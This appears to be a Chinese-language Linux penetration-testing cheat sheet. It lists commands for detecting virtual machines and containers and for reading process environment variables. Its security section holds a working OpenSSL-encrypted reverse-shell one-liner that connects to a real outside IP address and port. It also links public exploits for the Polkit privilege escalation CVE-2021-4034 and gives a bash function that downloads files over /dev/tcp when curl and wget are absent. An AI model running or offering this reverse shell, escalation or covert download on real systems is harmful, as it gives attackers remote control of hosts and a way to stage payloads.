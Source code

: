 # Linux

## 信息查看
### 查看是否是虚拟机
lshw -class system | grep -i VM & grep -i virtual
dmesg | grep -i VM & grep -i virtual
dmidecode -s system-product-name
ls /tmp
systemd-detect-virt
virt-what
ls -alh /.dockerenv
cat /proc/1/cgroup


## 查看启动时的环境变量

```bash
cat /proc/$PID/environ


例如： /proc/1/environ
```


## 安全

### openssl 回弹shell

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

openssl s_server -quiet -key key.pem -cert cert.pem -port 4242

mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 1.117.43.77:4242 > /tmp/s; rm /tmp/s
```

### 提权

**CVE-2021-4034**

> Linux Polkit 权限提升漏洞
[CVE-2021-4034](https://github.com/zhzyker/CVE-2021-4034)
- https://github.com/berdav/CVE-2021-4034

- Redhat/CentOS 发行版下通过写恶意网卡配置文件进行命令执行的方式
    - https://seclists.org/fulldisclosure/2019/Apr/24

### 奇技淫巧

- linux在没有curl和wget的情况下如何用shell实现下载功能
    - https://zgao.top/linux%e5%9c%a8%e6%b2%a1%e6%9c%89curl%e5%92%8cwget%e7%9a%84%e6%83%85%e5%86%b5%e4%b8%8b%e5%a6%82%e4%bd%95%e7%94%a8shell%e5%ae%9e%e7%8e%b0%e4%b8%8b%e8%bd%bd%e5%8a%9f%e8%83%bd/
```bash
#!/bin/bash
# 无依赖的http下载
# https://zgao.top/linux%e5%9c%a8%e6%b2%a1%e6%9c%89curl%e5%92%8cwget%e7%9a%84%e6%83%85%e5%86%b5%e4%b8%8b%e5%a6%82%e4%bd%95%e7%94%a8shell%e5%ae%9e%e7%8e%b0%e4%b8%8b%e8%bd%bd%e5%8a%9f%e8%83%bd/
# https://github.com/c4pr1c3/cuc-ns/blob/master/chap0x07/exp/webgoat/wget.sh

function DOWNLOAD() {

    local URL=$1

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.xxx.com/test.json]" \
            "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi

    read proto server path <<< "${URL//"/"/ }"
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
    while IFS= read -r line ; do
        [[ "$line" == $'\r' ]] && break
    done <&3
    nul='\0'
    while IFS= read -d '' -r x || { nul=""; [ -n "$x" ]; }; do
        printf "%s$nul" "$x"
    done <&3
    exec 3>&-
}

DOWNLOAD "$1"
```

